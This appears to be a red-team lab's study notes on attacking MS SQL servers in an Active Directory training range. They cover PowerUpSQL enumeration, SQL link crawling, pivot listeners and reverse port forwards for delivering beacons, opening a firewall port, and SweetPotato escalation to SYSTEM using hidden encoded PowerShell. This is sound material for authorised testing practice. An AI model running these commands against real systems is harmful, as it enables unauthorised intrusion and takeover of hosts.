 # Use PowerUpSQL, but before.. import it! 
```powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1```

Find MS SQL Servers
```powershell Get-SQLInstanceDomain```
It works by searching for SPNs that begin with MSSQL*.
You may also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

Test whether or not we can connect to the database
```powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433"```
:triangular_flag_on_post: Try both with simple user and SYSTEM. It could give different results! 

Get more information about the instance
```powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"```
:triangular_flag_on_post:  If there are multiple SQL Servers available, you can chain these commands together to automate the data collection.
```powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo```

There are several options for issuing queries against a SQL instance.  
- Get-SQLQuery from PowerUpSQL ```powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"```
- Using msqlclient.py. For this you will need to use proxichain and start SOCKS on the beacon
- Windows GUI for sql via proxifier.

The idea here is to move from the workstation you exploited to an SQL instance. You should be both simple user and a SYSTEM user in order to be able to apply firewall rules.
This is because there is a SQL command length limit that will prevent you from sending large payloads directly in the query. Since the SQL server also cannot reach the team server directly, a reverse port forward can be used to deliver it.
The rev port forward require to open the port on the firewall and only SYSTEM users can do this. 

Starting from being the simple user, create a **pivot listner**. Just use a port you are sure is not already used and leave all the rest as it is.
When you'll encode the payload that need to be linked to the pivot listner just created, you'll need to change the port to 8080 and the IP should be the one of the workstation. (wkstn-2 in our case)
As System we'll need do the reverse port forward with ```rportfwd 8080 127.0.0.1 80``` and create the right rule in the firewall ```powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080```

This will spawn a beacon on the SQL system. 

From there we can see if this system is linked to another. 
```powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"```
Let's say we are in a SQL instance 2 and we see it is linked to another SQL instance 1. To execute a shell command on SQL-1 we we'll need to recreate the chain used previously. 
Starting from being the SQL user on SQL 2, create a **pivot listner**. Just use a port you are sure is not already used and leave all the rest as it is.
When you'll encode the payload it needs to be linked to the pivot listner just created, you'll need to change the port to 8080 and the IP should be the one of the SQL 2.
We'll need to do the reverse port forward with ```rportfwd 8080 127.0.0.1 80``` and this will spawn a beacon on the SQL 1 system. 

In this way I will probably become simple user on SQL 1 system since we cannot be a local admin directly. In order to escalate privileges and become SYSTEM a strategy is to force a SYSTEM service to authenticate to a rogue service that the attacker creates.  This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

For this we can use SweetPotato
SweetPotato has a collection of these various techniques which can be executed via Beacon's execute-assembly command.

```execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <encoded command>"
The listener you need to create is a TCP listener bind to localhost on a port that is free at the moment. When you encode the web delivery, it should point to the system itself (SQL 1) and port must be 8080 since we are still exploiting the rev portforward.

